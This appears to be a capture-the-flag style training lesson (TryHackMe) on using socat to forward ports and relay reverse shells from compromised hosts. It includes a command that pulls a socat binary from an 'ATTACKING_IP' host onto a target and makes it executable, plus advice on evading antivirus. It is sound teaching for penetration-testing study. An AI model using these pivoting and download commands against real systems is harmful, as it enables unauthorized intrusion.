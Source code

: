 Socat is not just great for fully stable Linux shells[[1]](https://tryhackme.com/room/introtoshells), it's also superb for port forwarding. The one big disadvantage of socat (aside from the frequent problems people have learning the syntax), is that it is very rarely installed by default on a target. That said, static binaries are easy to find for both [Linux](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat) and [Windows](https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download). Bear in mind that the Windows version is unlikely to bypass Antivirus software by default, so custom compilation may be required. Before we begin, it's worth noting: if you have completed the [What the Shell?](https://tryhackme.com/room/introtoshells) room, you will know that socat can be used to create encrypted connections. The techniques shown here could be combined with the encryption options detailed in the shells room to create encrypted port forwards and relays. To avoid overly complicating this section, this technique will not be taught here; however, it's well worth experimenting with this in your own time.  

Whilst the following techniques could not be used to set up a full proxy into a target network, it is quite possible to use them to successfully forward ports from both Linux and Windows compromised targets. In particular, socat makes a very good relay: for example, if you are attempting to get a shell on a target that does not have a direct connection back to your attacking computer, you could use socat to set up a relay on the currently compromised machine. This listens for the reverse shell from the target and then forwards it immediately back to the attacking box:

![Diagram demonstrating the purpose of a relay to forward a shell back from a target PC](https://assets.tryhackme.com/additional/wreath-network/502e2fa5765e.png)  

It's best to think of socat as a way to join two things together -- kind of like the Portal Gun in the Portal games, it creates a link between two different locations. This could be two ports on the same machine, it could be to create a relay between two different machines, it could be to create a connection between a port and a file on the listening machine, or many other similar things. It is an extremely powerful tool, which is well worth looking into in your own time.

Generally speaking, however, hackers tend to use it to either create reverse/bind shells, or, as in the example above, create a port forward. Specifically, in the above example we're creating a port forward _from_ a port on the compromised server _to_ a listening port on our own box. We could do this the other way though, by either forwarding a connection from the attacking machine to a target inside the network, or creating a direct link between a listening port on the _attacking machine_ with the service on the internal server. This latter application is especially useful as it does not require opening a port on the compromised server.

Before using socat, it will usually be necessary to download a binary for it, then upload it to the box.

**For example, with a Python webserver:-**

On Kali (inside the directory containing your Socat binary):

`sudo python3 -m http.server 80`

Then, on the target:  
`curl ATTACKING_IP/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME`

![Demonstration of using cURL with a Python HTTP server to upload files](https://assets.tryhackme.com/additional/wreath-network/f976be91162d.png)

With the binary uploaded, let's have a look at each of the above scenarios in turn.

_**Note:** This uploads the socat binary with your username in the title; however, the example commands given in the rest of this task will refer to the binary simply as_ `socat`_._  

---

